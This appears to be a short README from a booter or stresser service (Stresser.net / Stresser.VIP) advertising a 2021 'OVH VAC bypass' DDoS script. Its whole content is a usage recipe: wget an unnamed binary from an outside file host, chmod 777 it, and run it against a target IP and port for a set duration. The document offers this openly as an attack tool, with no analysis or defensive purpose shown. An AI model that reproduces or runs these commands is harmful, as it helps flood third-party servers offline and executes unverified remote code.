 # OVH-DDOS-BYPASS
Stresser.net // OVH-VAC OVH DDOS BYPASS METHOD 2021 (WHITELIST UPDATED!)


Stresser.NET & Stresser.VIP // OVH VAC BYPASS SCRIPT 2021

wget http://upload.vina-host.com/10yiIS/jeffovh

chmod 777 jeffovh

./jeffovh IP PORT 10 -1 (Time)

